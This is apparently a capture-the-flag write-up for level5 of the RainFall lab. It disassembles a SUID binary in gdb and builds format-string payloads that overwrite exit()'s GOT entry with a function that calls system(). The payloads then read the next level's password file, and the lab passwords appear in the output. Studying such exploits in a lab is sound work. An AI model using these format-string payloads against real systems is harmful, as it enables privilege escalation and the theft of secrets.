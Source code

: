 Login as `level5`.
```shell
┌──$ [~/42/2021/rainfall]
└─>  ssh 192.168.1.28 -p 4242 -l level5
level5@192.168.1.28's password: 0f99ba5e9c446258a69b290407a6c60859e9c2d25b26575cafc9ae6d75e9456a
```
A `SUID` executable is located in the home directory.
```shell
level5@RainFall:~$ ls -l
total 8
-rwsr-s---+ 1 level6 users 5385 Mar  6  2016 level5
```
Examine all defined functions.
```gdb
(gdb) info functions
[...]
0x080484a4  o
0x080484c2  n
0x08048504  main
[...]
```
`o()` function execute systemcall running a shell.
```gdb
(gdb) disassemble o
Dump of assembler code for function o:
   0x080484a4 <+0>:	push   %ebp
   0x080484a5 <+1>:	mov    %esp,%ebp
   0x080484a7 <+3>:	sub    $0x18,%esp
   0x080484aa <+6>:	movl   $0x80485f0,(%esp)
   0x080484b1 <+13>:	call   0x80483b0 <system@plt>
   0x080484b6 <+18>:	movl   $0x1,(%esp)
   0x080484bd <+25>:	call   0x8048390 <_exit@plt>
End of assembler dump.
```
`n()` function gets user input, print it and exit with exit code 1. Obviously the address of `exit()` should be overwritten with address of `o()`.
```gdb
(gdb) disassemble n
   [...]
   0x080484f8 <+54>:	movl   $0x1,(%esp)
   0x080484ff <+61>:	call   0x80483d0 <exit@plt>
```
As described in level4, there are two method to write arbitrary data to potentially carefully-selected address - overwrite `exit()`'s address by `o()`'s address.
```shell
level5@RainFall:~$ (python -c 'print "\x38\x98\x04\x08" + "%0134513824x%4$n"'; echo "cat /home/user/level6/.pass") | ./level5
000000000000000000000000000000000000000000000000000000000000000[...]000000000000000000000000000000000000000200
d3b7bf1025225bd715fa8ccb54ef06ca70b9125ac855aeab4878217177f41a31
```
exit() = 0x08049838
   o() = 0x080484a4

4 0xa4 164 > 4+4+4+4+x             = 164 (0xa4)  x=148
3 0x84 132 > 4+4+4+4+148+x         = 388 (0x184) x=224
2 0x04   4 > 4+4+4+4+148+224+x     = 516 (0x204) x=128
1 0x08   8 > 4+4+4+4+148+224+128+x = 520 (0x208) x=4
```shell
level5@RainFall:~$ (python -c 'print "\x38\x98\x04\x08" + "\x39\x98\x04\x08" + "\x3a\x98\x04\x08" + "\x3b\x98\x04\x08" + "%148hhx%4$n"+ "%224hhx%5$n" + "%128hhx%6$n" + "%4hhx%7$n"'; echo "cat /home/user/level6/.pass") | ./level5
89:;                                                                                                                                                   0                                                                                                                                                                                                                              c0                                                                                                                              d0  38
d3b7bf1025225bd715fa8ccb54ef06ca70b9125ac855aeab4878217177f41a31
```
